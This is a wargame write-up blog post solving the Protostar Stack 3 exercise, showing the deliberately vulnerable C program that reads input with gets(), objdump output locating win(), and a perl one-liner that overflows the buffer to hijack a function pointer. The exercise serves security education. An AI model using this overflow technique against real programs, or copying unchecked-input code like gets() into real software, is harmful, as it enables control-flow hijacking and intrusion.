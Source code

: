 ```yaml
---
title: "Exploit Exercises - Protostar Stack 3"
date: "2011-12-15T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-3.html"
---
```


[This](http://exploit-exercises.com/protostar/stack3) challenge starts getting a little bit more involved than the previous ones.  Instead of just providing a new value for the "modified" variable, we need to make the code jump to a method, changing the execution.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 volatile int (*fp)();
 char buffer[64];

 fp = 0;

 gets(buffer);

 if(fp) {
  printf("calling function pointer, jumping to 0x%08x\n", fp);
  fp();
 }
}
```

This means that first of all, we need to find the address of where the "win()" function is located in the program.  To do this, I used objdump, however you could use gdb as well, or any other disassembly program.  I have cut the useful part of the output below, since it gives a <i>lot</i> of information we don't need.

```
user@protostar:/opt/protostar/bin$ objdump -d stack3
...

08048424 <win>:
8048424:       55                      push   %ebp
8048425:       89 e5                   mov    %esp,%ebp
8048427:       83 ec 18                sub    $0x18,%esp
804842a:       c7 04 24 40 85 04 08    movl   $0x8048540,(%esp)
8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
8048436:       c9                      leave
8048437:       c3                      ret
...
```

From this, we can now see that the "win()" function is located at 0x08048424 in the memory.  So if we can get our program to jump there, it will execute that code.  Luckily the "fp" pointer in the code gets called if it is not equal to 0.  We just need to overwrite it with the memory value of "win()" by doing the following:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x64 . "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

